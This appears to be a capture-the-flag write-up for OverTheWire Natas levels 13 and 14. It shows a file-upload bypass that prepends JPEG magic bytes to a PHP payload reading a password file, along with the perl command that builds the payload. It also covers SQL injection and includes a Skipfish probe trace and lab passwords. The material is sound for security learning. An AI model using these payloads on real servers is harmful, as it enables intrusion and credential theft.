## 13 Magic Number - Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

This is the same as **12** but this time their code runs a verification on the file to check if it is an image.

```php
if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
  echo "File is not an image";
}
```

By googling you will find that `exif_imagetype` simply reads the 4 first bytes of the file, a.k.a. the **Magic Number** to confirm if it's an image or not.

That said, all we need to do is to create a malicious payload that contains the 4 first bytes mimicking that of a legit image.

```php
'\xFF\xD8\xFF\xE0' + '<? echo file_get_contents("/etc/natas_webpass/natas14"); ?>'
```

Let's do it with perl, just for the kicks.

```perl
perl -e 'open(fh, ">", "/tmp/natas14.php"); print fh "\xFF\xD8\xFF\xE0" . "<? echo file_get_contents(\"/etc/natas_webpass/natas14\"); ?>"; close(fh)'
```

And voila, works like a charm, we got the payload implanted.

```
For security reasons, we now only accept image files!

The file upload/o8grhpz1hw.php has been uploaded
```

## 14 sqli - AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

So this is a textbook bobby tables scenario (sql injection).

A form with username and password that is fed directly into a query. 

This time I want to take sometime to play around with some kali tools that probe for sqli in websites.

### Skipfish

Skipfish is a webcrawler that hunts for vulnerabilities. Running it against natas14, unsurprisingly, yielded 2 **High risk** findings (it attempted sqli once for each the username and password fields) for Query Injection Vector. The trace of which is below:

```
=== REQUEST ===

POST /index.php HTTP/1.1
Host: natas14.natas.labs.overthewire.org
Accept-Encoding: gzip
Connection: keep-alive
Range: bytes=0-399999
Authorization: Basic bmF0YXMxNDpMZzk2TTEwVGRmYVB5VkJrSmRqeW1ibGxRNUw2cWRsMQ==
User-Agent: sfish'"
Referer: sfish'"
Accept-Language: sfish'",en
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

username=Smith&password=skipfish'"
=== RESPONSE ===

HTTP/1.1 200 Partial Content
```